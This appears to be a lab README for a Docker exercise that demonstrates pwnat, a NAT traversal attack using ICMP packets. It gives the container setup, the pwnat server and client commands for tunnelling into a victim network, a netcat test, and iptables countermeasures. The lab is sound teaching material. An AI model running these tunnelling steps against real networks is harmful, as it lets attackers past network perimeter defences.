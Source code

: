 The IP addresses for these containers are:
Attacker: 172.16.100.200
Router: WAN IP 172.16.100.10, LAN IP 192.168.1.10
Victim: 192.168.1.50
Configuring the Router:

Access the router container using 
``docker exec -it router /bin/bash``
Run ``bash vyos_routes.sh`` to load routes and iptables rules.
Starting the Attacker Server:

Access the attacker container using ``docker exec -it attacker /bin/bash``.
Start the server with ``./code/pwnat -s``.
Configuring the Victim:

Access the victim container using ``docker exec -it victim /bin/bash``.
Run ``./code/pwnat -c 8000 172.16.100.200 purdue.edu 80`` to configure the client for the NAT exploit.

Testing the Exploit:
On the Docker host, run ``nc 192.168.1.50 8000`` to test the UDP tunnel.

Understanding the Exploit:
The exploit uses ICMP type 8 (echo request) and type 11 (time-to-live exceeded) to create a transparent UDP tunnel in NAT.

Implementing Countermeasures:
On the VyOS router container, run the following commands to block malicious ICMP packets:
``iptables -A INPUT -p icmp --icmp-type 11 -j DROP``
``iptables -A OUTPUT -p icmp --icmp-type 11 -j DROP``
Understanding Limitations:

The exploit's effectiveness is limited in Docker container networking due to direct routes from each Docker container network to the raw Network Interface Card (NIC).
Key Points:

UDP can be spoofed to allow tunneling of TCP protocols.
ICMP is vulnerable to attacks like redirects and TTL malforming.
NAT can be manipulated to allow malicious traffic into an internal network.
